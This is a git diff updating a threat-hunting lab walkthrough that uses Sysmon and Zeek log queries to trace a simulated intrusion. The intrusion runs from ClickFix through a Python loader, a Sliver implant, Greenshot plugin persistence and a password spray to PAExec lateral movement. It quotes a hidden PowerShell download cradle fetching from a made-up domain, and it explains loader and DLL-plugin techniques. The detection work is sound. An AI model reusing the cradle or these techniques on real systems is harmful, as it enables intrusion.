

Update lab 001 walkthrough queries and text
Drop sort(timestamp) from queries, add the beacon-to-process lookup, the
logon type 9 query and the chain() view of PAExec, describe the Greenshot
plugin chain, defang chapter 9 indicators, and refresh the screenshots.

diff --git a/guide/001/walkthrough/03-loader.md b/guide/001/walkthrough/03-loader.md
@@ -13,11 +13,11 @@ title: "3. The loader"
 Sysmon event 11 records file creation. Filter to the files `tar.exe` wrote:
 
 ```bql
-event_id="11" image=$"\\tar.exe" | sort(timestamp) | table(timestamp, computer_name, user, target_file)
+event_id=11 image=$"\\tar.exe" | table(timestamp, computer_name, user, target_file)
 ```
 <!-- shot: q005-tar-writes | Files tar created in the user's Temp folder. | rows=9 -->
 
-The first file is `...\Temp\QuickConnect\QuickConnectSupport.exe`, followed by `python312.dll`, `python3.dll`, `vcruntime140.dll` and the rest of a Python runtime.
+Reading from the bottom, the first file is `...\Temp\QuickConnect\QuickConnectSupport.exe`, followed by `python312.dll`, `python3.dll`, `vcruntime140.dll` and the rest of a Python runtime.
 
 !!! finding "Finding · Q005"
     The loader was written to disk as **QuickConnectSupport.exe**.
@@ -30,11 +30,11 @@ The first file is `...\Temp\QuickConnect\QuickConnectSupport.exe`, followed by `
 Windows executables carry an `OriginalFileName` in their version info, and Sysmon records it. When it doesn't match the name on disk, the file was renamed.
 
 ```bql
-bifract_category="process_creation" image=~"\\Temp\\QuickConnect\\" | sort(timestamp) | table(timestamp, image, original_file_name, company, trusted, process_guid)
+bifract_category="process_creation" image=~"\\Temp\\QuickConnect\\" | table(timestamp, image, original_file_name, company, trusted, process_guid)
 ```
 <!-- shot: q006-loader-identity | The loader's original file name, publisher and signature. | rows=2 -->
 
-`QuickConnectSupport.exe` is really **`pythonw.exe`**, published by the Python Software Foundation, with a trusted signature. It's a legitimate signed interpreter running under a support-themed name ([T1036](https://attack.mitre.org/techniques/T1036/), Masquerading). The next process, `QuickConnect.Service.exe`, has no original file name and isn't signed.
+`QuickConnectSupport.exe` is really **`pythonw.exe`**, published by the Python Software Foundation, with a trusted signature. It's a legitimate signed interpreter running under a support-themed name ([T1036](https://attack.mitre.org/techniques/T1036/), Masquerading). The other process, `QuickConnect.Service.exe`, has no original file name and isn't signed.
 
 !!! finding "Finding · Q006"
     The loader's original file name is **pythonw.exe**.
@@ -55,9 +55,9 @@ A portable ("embeddable") Python reads a `._pth` file next to the interpreter to
 Sysmon's file create rule didn't log every file tar wrote. But tar sets each file's timestamp back to the one stored in the archive, and Sysmon logs that as event 2 (file creation time changed). Filter out the DLLs to see what's left:
 
 ```bql
-event_id="2" image=$"\\tar.exe" | target_file!=/\.(pyd|dll)$/i | sort(timestamp) | table(timestamp, target_file, previous_creation_utc_time, creation_utc_time)
+event_id="2" image=$"\\tar.exe" | target_file!=/\.(pyd|dll)$/i | table(timestamp, target_file, previous_creation_utc_time, creation_utc_time)
 ```
-<!-- shot: q007-tar-event2 | Non-DLL files tar restored, oldest first. | rows=6 -->
+<!-- shot: q007-tar-event2 | Non-DLL files tar restored, newest first. | rows=6 -->
 
 There are six files: the renamed interpreter, `LICENSE.txt`, `python312.zip`, `python.cat`, **`python312._pth`** and `DocumentResources.dat`.
 
@@ -65,13 +65,21 @@ There are six files: the renamed interpreter, `LICENSE.txt`, `python312.zip`, `p
     The path configuration file is **python312._pth**.
 
 !!! info "Not timestomping"
-    Event 2 often catches attackers back-dating files. Here it's tar restoring the timestamps stored in the archive, which it does for every file it extracts. Event 2 has no `bifract_category`, so filter it by `event_id`.
+    Event 2 often catches attackers back-dating files. Here it's tar restoring the timestamps stored in the archive, which it does for every file it extracts.
 
 ## The extra file <span class="q-ref">Q008</span> { #q008 }
 
 A stock embeddable Python ships `python312.zip`, `python312._pth`, `python.cat` and `LICENSE.txt`. One file in the list isn't part of Python: **`DocumentResources.dat`**, written right after the `._pth`.
 
-That's the attacker's code. It's a zip archive with a harmless-looking extension, and the `._pth` puts it on Python's import path. The stock `python312._pth` lists `python312.zip` and ends with `#import site`, commented out. The attacker adds `DocumentResources.dat` as a path and uncomments `import site`. On startup Python imports the `site` module, which loads `sitecustomize` from anywhere on the path, including inside the `.dat`. The attacker's code runs before any script, and the process starts with nothing on its command line but the executable.
+That's the attacker's code. It's a zip archive with a harmless-looking extension, and the `._pth` puts it on Python's import path. The stock `python312._pth` lists `python312.zip` and ends with `#import site`, commented out. The attacker adds `DocumentResources.dat` as a path and uncomments `import site`. On startup Python imports the `site` module, which loads `sitecustomize` from anywhere on the path, including inside the `.dat`. The attacker's code runs before any script, and the process starts with nothing on its command line.
+
+```text
+pythonw.exe
+python312._pth (modified)
+DocumentResources.dat (zip archive, attacker placed)
+    - sitecustomize.py
+    - QuickConnect.Service.exe
+```
 
 This technique comes from a real intrusion Black Hills ActiveSOC wrote up in [A Loader With No Command Line](https://activesoc.blackhillsinfosec.com/blog/a-loader-with-no-command-line/), which used the same `DocumentResources.dat` name.
 
@@ -120,8 +128,5 @@ event_id="1" tlsh=* | tlsh(field=tlsh, dict="celes_tlsh", threshold=50) | match(
 <!-- shot: q009-tlsh | The only program within 50 of a public attack tool. | rows=1 -->
 
 Of the 245 process starts, only the implant comes within 50 of a known attack tool. Its closest match is Merlin, an open source C2 written in Go, at a distance of 44. That doesn't make it Merlin. It's a Sliver implant, and the list holds released Sliver servers and clients rather than implants, so the closest Sliver build is 63 away. TLSH only says this binary looks a lot like a Go C2 framework, which is enough reason to look closer.
-
-!!! info "The bundle's alert doesn't fire here"
-    The bundle also adds an alert, **Untrusted Binary Similar to an Attack Tool**, which only checks unsigned programs. It reads the signing status from a field named `authenticode_trusted`, but this lab stores it as `trusted`, so the alert never matches. Add `trusted="untrusted"` to the search above and you get the same single row: the implant is also the only unsigned program with a digest. A close match on a program that also isn't signed is a much stronger signal than either one on its own.
 
 Next: [the attacker's hands on the keyboard](04-hands-on-keyboard.md).

diff --git a/guide/001/walkthrough/09-summary.md b/guide/001/walkthrough/09-summary.md
@@ -13,14 +13,14 @@ title: "9. Timeline and takeaways"
 ## Timeline
 
 <div class="lb-timeline" markdown>
-<div><time>14:02</time><b>ClickFix</b><p>jen.walker pastes a PowerShell command into the Run dialog on WS02. A download cradle fetches a payload archive from <code>update-cache-m9tdco18phmc.com</code>.</p></div>
-<div><time>14:04</time><b>Loader</b><p><code>tar</code> extracts an embeddable Python. <code>QuickConnectSupport.exe</code>, really a signed <code>pythonw.exe</code>, imports code from <code>DocumentResources.dat</code> and starts <code>QuickConnect.Service.exe</code>, which calls <code>203.0.113.87:8888</code>.</p></div>
+<div><time>14:02</time><b>ClickFix</b><p>jen.walker pastes a PowerShell command into the Run dialog on WS02. A download cradle fetches a payload archive from <code>update-cache-m9tdco18phmc[.]com</code>.</p></div>
+<div><time>14:04</time><b>Loader</b><p><code>tar</code> extracts an embeddable Python. <code>QuickConnectSupport.exe</code>, really a signed <code>pythonw.exe</code>, imports code from <code>DocumentResources.dat</code> and starts <code>QuickConnect.Service.exe</code>, which calls <code>203.0.113[.]87:8888</code>.</p></div>
 <div><time>14:10</time><b>Discovery</b><p>The implant runs <code>whoami /all</code>, <code>ipconfig /all</code> and <code>systeminfo</code>.</p></div>
-<div><time>14:18</time><b>Remote access</b><p>RustDesk, renamed <code>QuickConnectSupport.exe</code>, connects to the attacker's relay at <code>192.0.2.146</code>.</p></div>
+<div><time>14:18</time><b>Remote access</b><p>RustDesk, renamed <code>QuickConnectSupport.exe</code>, connects to the attacker's relay at <code>192.0.2[.]146</code>.</p></div>
 <div><time>14:22</time><b>Hands on keyboard</b><p>Over RustDesk, the attacker types <code>cmd.exe /k whoami.exe &amp; hostname.exe &amp; ipconfig.exe /all</code> into Run. An 84-minute relay session begins.</p></div>
 <div><time>14:36</time><b>Staging</b><p>Two DLLs land in <code>AppData\Roaming\Greenshot\</code>.</p></div>
 <div><time>14:42</time><b>Persistence</b><p><code>reg add</code> sets <code>HKCU\...\Run\Greenshot</code>.</p></div>
-<div><time>14:51</time><b>Greenshot loads the DLL</b><p>Greenshot is relaunched and loads the attacker's DLL. The beacon to <code>203.0.113.87:8888</code> now comes from Greenshot.</p></div>
+<div><time>14:51</time><b>Greenshot loads the plugin</b><p>Greenshot is relaunched and loads the attacker's plugin, which loads the Sliver DLL. The beacon to <code>203.0.113[.]87:8888</code> now comes from Greenshot.</p></div>
 <div><time>15:19</time><b>Password spray</b><p>One password, <code>Meridian2026!</code>, against four accounts via <code>net use \\WS03\IPC$</code>. Three fail.</p></div>
 <div><time>15:20</time><b>Valid account</b><p><code>svc.wksdeploy</code> logs on to WS03.</p></div>
 <div><time>15:28</time><b>Lateral movement</b><p>PAExec copies the implant over <code>ADMIN$</code> and installs service <code>PAExec-6740-WS02</code> on WS03.</p></div>
@@ -31,20 +31,20 @@ title: "9. Timeline and takeaways"
 ## Indicators
 
 !!! warning "Don't contact these indicators"
-    The domains are made up and the IPs are from documentation ranges. They're here for detection practice only.
+    They're defanged with `[.]` so they don't get resolved or clicked by accident. The domains are made up and the IPs are from documentation ranges. They're here for detection practice only.
 
 | Type | Indicator | Role |
 |---|---|---|
-| Domain | `update-cache-m9tdco18phmc.com` | Download and C2 |
-| Domain | `support-assist-7wfncs.online` | RustDesk relay server |
-| IP | `203.0.113.87` | C2 on TCP 8888; download on 443 |
-| IP | `192.0.2.146` | RustDesk relay on TCP 21115 to 21117 |
+| Domain | `update-cache-m9tdco18phmc[.]com` | Download and C2 |
+| Domain | `support-assist-7wfncs[.]online` | RustDesk relay server |
+| IP | `203.0.113[.]87` | C2 on TCP 8888; download on 443 |
+| IP | `192.0.2[.]146` | RustDesk relay on TCP 21115 to 21117 |
 | File | `%TEMP%\QuickConnect\QuickConnectSupport.exe` | Renamed `pythonw.exe` (loader) |
 | File | `%TEMP%\QuickConnect\DocumentResources.dat` | Zip of the attacker's Python code |
 | File | `%TEMP%\QuickConnect\python312._pth` | Adds `DocumentResources.dat` to Python's import path |
 | File | `QuickConnect.Service.exe` | Implant (`%TEMP%\QuickConnect\` on WS02, `C:\Windows\` on WS03) |
 | File | `%LOCALAPPDATA%\Programs\QuickConnect Support\QuickConnectSupport.exe` | Renamed RustDesk |
-| File | `%APPDATA%\Greenshot\Greenshot.Plugin.QuickConnect.dll`, `QuickConnect.ImageCache.dll` | Malicious Greenshot plugins |
+| File | `%APPDATA%\Greenshot\Greenshot.Plugin.QuickConnect.dll`, `QuickConnect.ImageCache.dll` | Malicious Greenshot plugin, and the Sliver DLL it loads |
 | Registry | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Greenshot` | Logon persistence |
 | Service | `PAExec-6740-WS02` | Remote execution on WS03 |
 | Account | `MERIDIAN\svc.wksdeploy` | Compromised by password spray |
@@ -53,7 +53,7 @@ title: "9. Timeline and takeaways"
 
 Each of these is a baseline or a simple rule you can build with the data in this lab.
 
-- **Run dialog history.** A `RunMRU` value containing `powershell`, `iwr`, `curl` or `-w h` is almost never legitimate. One rule on Sysmon event 13 catches ClickFix at the first step.
+- **Run dialog history.** A `RunMRU` value containing `powershell`, `iwr`, `curl` or `-w h` is almost never legitimate. One rule on Sysmon event 13 catches ClickFix at the first step. Length works too: normal Run entries are short, like `notepad` or a folder path, and a ClickFix command is a long one-liner.
 - **Name versus original file name.** A signed binary whose name on disk differs from its original file name, running from a user-writable path. This catches the loader and the renamed RustDesk.
 - **First seen remote tools.** Keyed on original file name, per host. When there's one sanctioned tool, any other one is worth a look.
 - **Programs doing new things.** Greenshot doesn't run discovery tools or talk to port 8888 on any other host. `pgr()` scores each action by how rare it is on other hosts.

diff --git a/guide/001/walkthrough/01-baselines.md b/guide/001/walkthrough/01-baselines.md
@@ -34,11 +34,11 @@ It has RustDesk and PAExec (which LOLRMM lists as a PsExec clone), both new on O
 
 ## What's beaconing?
 
-An implant usually checks in with its command and control (C2) server on a timer, and people don't. That regular check-in is called **beaconing**. Attackers add **jitter**, a random amount added to or taken off the sleep time between check-ins, but the rhythm still shows. Here is one hour on WS02:
+An implant usually checks in with its command and control (C2) server on a timer. That regular check-in is called **beaconing**. Attackers add **jitter**, a random amount added to or taken off the sleep time between check-ins, but the rhythm still shows. Here is one hour on WS02:
 
 <!-- beacon: labs/001/figures/beacon-hour.tsv | One hour on WS02, Oct 30, 2026 (UTC). Each tick is one connection, and taller ticks sent more bytes. The C2 checks in about every 30 seconds, always with nearly the same size. People's traffic comes in bursts. -->
 
-The `outbound_beacons` model scores every internal to external pair by how regular its timing and sizes are.
+The `outbound_beacons` model scores every internal to external pair by how regular its timing and sizes are. It's the same idea behind Active Countermeasures' [RITA](https://github.com/activecm/rita), which scores Zeek logs for beacons, and their [blog](https://www.activecountermeasures.com/blog/) covers beacon hunting in depth.
 
 Network models score a rolling window that ends now, so a dataset from the past needs a one-time **Score range** ([setup](../setup.md#add-the-models), step 4). Then open the model:
 
@@ -53,6 +53,23 @@ Two pairs out of 949 cross the threshold, and both come from `10.1.10.22`, which
 
 !!! tip "Tuning out the known good"
     The model's source query drops time sync (`dst_port!="123"`), multicast and internal destinations. Without that, DC01's NTP syncs top the list, because they're regular by design.
+
+## Which process is beaconing?
+
+Zeek only sees IP addresses. Sysmon event 3 logs the same connections with the process and user behind them, so look each one up in the model:
+
+```bql
+event_id=3
+| !isPrivateIP(dst_ip)
+| modelLookup(model="outbound_beacons", key=[src_ip, dst_ip, dst_port])
+| beacon_score > 0.8
+| groupBy(computer_name, user, image, dst_ip, beacon_score)
+```
+<!-- shot: model-beacons-endpoint | The beaconing pairs matched to the processes on WS02. | rows=5 -->
+
+All five rows are jen.walker on WS02. Greenshot made 2,494 of the connections to `203.0.113.87`, and the implant in `Temp` shows up once. RustDesk owns the `192.0.2.146` pair. A screenshot tool talking to a beaconing destination is worth following, and [chapter 5](05-persistence.md) does.
+
+The `tasklist.exe` row is a Sysmon quirk. That tasklist exited at 14:50, and Greenshot started a minute later with the same process ID, 1240. Sysmon logged Greenshot's first two connections before its process start, under the old name.
 
 ## What stays connected too long?
 
@@ -78,14 +95,14 @@ The three rarest rows are all on WS02: `cmd.exe`, `powershell.exe` and `Greensho
 
 ## First user <span class="q-ref">Q002</span> { #q002 }
 
-Next I filter to those shells and sort them by time.
+Next I filter to those shells. Bifract lists results newest first.
 
 ```bql
-bifract_category="process_creation" parent_image=$"\\explorer.exe" image=~powershell,cmd | sort(timestamp) | table(timestamp, computer_name, user, image, process_guid)
+bifract_category="process_creation" parent_image=$"\\explorer.exe" image=~powershell,cmd | table(timestamp, computer_name, user, image, process_guid)
 ```
-<!-- shot: q002-first-shell | Explorer-launched shells on WS02, oldest first. | rows=4 -->
+<!-- shot: q002-first-shell | Explorer-launched shells on WS02, newest first. | rows=4 -->
 
-The earliest is PowerShell at **2026-10-29 14:02:27**, run by `meridian\jen.walker`.
+The earliest, at the bottom, is PowerShell at **2026-10-29 14:02:27**, run by `meridian\jen.walker`.
 
 !!! finding "Finding · Q002"
     The first suspicious process tree belongs to **MERIDIAN\jen.walker**.

diff --git a/guide/001/walkthrough/07-lateral-movement.md b/guide/001/walkthrough/07-lateral-movement.md
@@ -29,7 +29,7 @@ The account is used against WS03 again on Oct 30 (01:28 and 11:08), so the attac
 Workstations talk SMB to the domain controller all day, for group policy and logon scripts. They rarely talk SMB to each other. `mesh()` draws every source and destination pair as a network, so the odd link stands out:
 
 ```bql
-channel="conn" dst_port="445" cidr(src_ip, "10.1.10.0/24") cidr(dst_ip, "10.1.10.0/24") | groupBy(src_ip, dst_ip) | mesh(src=src_ip, dst=dst_ip)
+channel="conn" dst_port="445" cidr(src_ip, "10.1.10.0/24") cidr(dst_ip, "10.1.10.0/24") | groupBy(src_ip, dst_ip) | mesh(src=src_ip, dst=dst_ip, directed=true)
 ```
 <!-- shot: q021-mesh | Internal SMB: every workstation to DC01, plus one link from WS02 to WS03. | graph wait=4000 -->
 
@@ -40,9 +40,9 @@ Each workstation (`.21`, `.22`, `.23`) connects to DC01 (`.10`) about 320 times.
 Search for any command that names WS03 as a UNC path (`\\WS03`). In BQL that takes four backslashes:
 
 ```bql
-event_id="1" commandline=~"\\\\WS03" | table(timestamp, hostname, user, original_file_name, commandline) | sort(timestamp)
+event_id="1" commandline=~"\\\\WS03" | table(timestamp, hostname, user, original_file_name, commandline)
 ```
-<!-- shot: q022-unc | Every command that targets \\WS03, in order. | rows=10 -->
+<!-- shot: q022-unc | Every command that targets \\WS03, newest first. | rows=10 -->
 
 This shows the whole sequence: the spray loop, each `net use`, and at 15:28:45:
 
@@ -83,6 +83,21 @@ A Defender driver (`KslD`) is installed on every workstation. Only WS03 has `PAE
 
 !!! finding "Finding · Q024"
     The service name is **PAExec-6740-WS02** ([T1569.002](https://attack.mitre.org/techniques/T1569/002/)).
+
+### Optional: the copy and the service on one connection
+
+Zeek sees both halves of this on the wire. `smb_files` logs the file written to the share, and `dce_rpc` logs the calls to the Service Control Manager. `chain()` links them when they share a connection ID (`uid`) within five minutes:
+
+```bql
+channel="dce_rpc" OR channel="smb_files"
+| chain(uid, within=5m) {
+    channel="dce_rpc" | operation=~CreateService,StartService,DeleteService,OpenServiceW,OpenSCManager2,ControlService,CreateWowService;
+    channel="smb_files" | name=$exe,dll,ps1,bat,tmp,txt;
+}
+```
+<!-- shot: q024-chain | One SMB connection from WS02 to WS03 carries the service calls and the PAExec copy. | click=1 -->
+
+There's one match. Click it to see the chain: on the same connection, WS02 opens the Service Control Manager on WS03 (`OpenSCManager2`) and opens `PAExec-6740-WS02.exe` on `ADMIN$`. Filter `dce_rpc` on that `uid` to see the rest of the service calls, including `CreateWowService` and `StartServiceW`.
 
 ## Running as SYSTEM <span class="q-ref">Q025</span> { #q025 }
 

diff --git a/guide/001/walkthrough/06-credential-access.md b/guide/001/walkthrough/06-credential-access.md
@@ -6,14 +6,14 @@ title: "6. Credential access"
 
 # Credential access
 
-<p class="lb-lede">jen.walker is a regular user, so to go further the attacker needed an account that can do more. This starts with the <code>net use</code> loop from chapter 4.</p>
+<p class="lb-lede">Jen Walker is a regular user, so to move laterally, the attacker needed an account with elevated privileges. This starts with the <code>net use</code> loop from chapter 4.</p>
 
 ## The sprayed password <span class="q-ref">Q017</span> { #q017 }
 
 `net use` with `/user:` takes a password on the command line, and Sysmon records command lines:
 
 ```bql
-bifract_category="process_creation" | image=$"\\net.exe" | commandline=~"/user:" | table(timestamp, computer_name, user, commandline) | sort(timestamp)
+bifract_category="process_creation" | image=$"\\net.exe" | commandline=~"/user:" | table(timestamp, computer_name, user, commandline)
 ```
 <!-- shot: q017-net-use | Four net use attempts against WS03, about 16 seconds apart. | rows=4 -->
 
@@ -63,6 +63,16 @@ event_id="4624" ip_address="10.1.10.22" | groupBy(computer_name, target_user_nam
 <!-- shot: q020-4624 | Successful logons from WS02. | rows=3 -->
 
 WS02's machine account and jen.walker log on to DC01 all the time. The new row is **svc.wksdeploy**: a network logon (type 3) on **WS03**, 15 times, first at 15:20:06. It matches the only successful AS request in the Zeek output.
+
+WS02 keeps its own record of the account being used. Logon type 9 (NewCredentials) is what `runas /netonly` and tools like PAExec create: the process keeps the user's identity on the local host but sends other credentials over the network.
+
+```bql
+computer_name=~WS02 subject_user_name=~jen.walker event_id=4624 logon_type=9
+| table(timestamp, computer_name, subject_user_name, target_outbound_user_name, process_name)
+```
+<!-- shot: q020-logon-type9 | PAExec on WS02 runs as jen.walker with svc.wksdeploy as its network account. | rows=1 -->
+
+At 15:28:45, `PAExec.exe` running as jen.walker sets `svc.wksdeploy` as its outbound account. That's the start of the lateral movement in [chapter 7](07-lateral-movement.md#q022).
 
 !!! finding "Finding · Q020"
     The sprayed password was valid for **MERIDIAN\svc.wksdeploy**. Deployment accounts like this usually have local admin on workstations.

diff --git a/guide/001/walkthrough/05-persistence.md b/guide/001/walkthrough/05-persistence.md
@@ -66,7 +66,7 @@ reg.exe add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Greenshot /t R
 Pivot from the DLL's folder to every file written there:
 
 ```bql
-bifract_category="file_write" | target_file=~"\\AppData\\Roaming\\Greenshot\\" | table(timestamp, computer_name, image, target_file) | sort(timestamp)
+bifract_category="file_write" | target_file=~"\\AppData\\Roaming\\Greenshot\\" | table(timestamp, computer_name, image, target_file)
 ```
 <!-- shot: q016-plugins | Files the implant dropped into Greenshot's user folder. | rows=2 -->
 
@@ -74,6 +74,14 @@ The implant wrote two DLLs, at 14:36 and 14:39, before relaunching Greenshot at 
 
 !!! finding "Finding · Q016"
     The staged DLLs are **Greenshot.Plugin.QuickConnect.dll** and **QuickConnect.ImageCache.dll**.
+
+Both DLLs are the attacker's. Greenshot loads any `Greenshot.Plugin.*.dll` it finds in its plugin folders, which include `%APPDATA%\Greenshot\`. The malicious plugin then loads the Sliver implant:
+
+```text
+Greenshot.exe
+    Greenshot.Plugin.QuickConnect.dll (malicious plugin)
+        QuickConnect.ImageCache.dll (Sliver implant)
+```
 
 Only `QuickConnect.ImageCache.dll` has an image load event, so event 7 alone won't find both. Following the folder does.
 

diff --git a/guide/001/walkthrough/02-initial-access.md b/guide/001/walkthrough/02-initial-access.md
@@ -13,11 +13,11 @@ title: "2. Initial access"
 When a user presses ++win+r++ and runs something, Explorer writes the command to the `RunMRU` registry key. Sysmon logs the write as event 13 (registry value set).
 
 ```bql
-event_id="13" target_object=~"\\RunMRU\\" | target_object!=$"MRUList" | sort(timestamp) | table(timestamp, computer_name, image, details)
+event_id="13" target_object=~"\\RunMRU\\" | target_object!=$"MRUList" | table(timestamp, computer_name, image, details)
 ```
-<!-- shot: q003-runmru | Everything typed into the Run dialog, oldest first. | rows=3 -->
+<!-- shot: q003-runmru | Everything typed into the Run dialog, newest first. | rows=3 -->
 
-There are three entries, all on WS02 and all written by Explorer. The first is at **14:02:27.543**, within milliseconds of the PowerShell process from chapter 1:
+There are three entries, all on WS02 and all written by Explorer. The first, at the bottom, is at **14:02:27.543**, within milliseconds of the PowerShell process from chapter 1:
 
 ```text
 powershell -w h -c "$t=$env:temp;iwr 'https://update-cache-m9tdco18phmc.com/a/.../pkg?...' -o $t\q;

diff --git a/guide/001/fields.md b/guide/001/fields.md
@@ -27,7 +27,7 @@ Velociraptor collected the Windows logs and Autoruns, and `artifact` names the V
 | Field | What it holds | Found in |
 |---|---|---|
 | `hostname` | Short host name, like `WS02` | Windows events, Autoruns |
-| `computer_name` | Full host name, like `WS02.meridian.internal`. In Zeek `http` events it holds the HTTP Host header instead | Windows events, Zeek `http` |
+| `computer_name` | Full host name, like `WS02.meridian.internal` | Windows events |
 | `event_id` | Windows event ID. Sysmon: `1` process start, `3` network connection, `7` image load, `11` file create, `13` registry value set, `22` DNS query. Security: `4624` logon, `4771` Kerberos pre-auth failure. System: `7045` service install | Windows events |
 | `bifract_category` | Bifract's name for the Sysmon event type, like `process_creation`, `network_connect`, `file_write`, `registry_event`, `image_load`, `dns_query` | Sysmon |
 | `channel` | Windows log name, or the Zeek log type | Windows events, Zeek |

diff --git a/guide/001/walkthrough/04-hands-on-keyboard.md b/guide/001/walkthrough/04-hands-on-keyboard.md
@@ -71,7 +71,7 @@ bifract_category="network_connect" | image=~QuickConnect,rustdesk | groupBy(comp
 Back to the Run dialog history from chapter 2:
 
 ```bql
-event_id="13" target_object=~"\\RunMRU\\" | target_object!=$"MRUList" | sort(timestamp) | table(timestamp, computer_name, image, details)
+event_id="13" target_object=~"\\RunMRU\\" | target_object!=$"MRUList" | table(timestamp, computer_name, image, details)
 ```
 <!-- shot: q013-runmru | The second and third Run entries come after RustDesk connects. | rows=3 -->
 
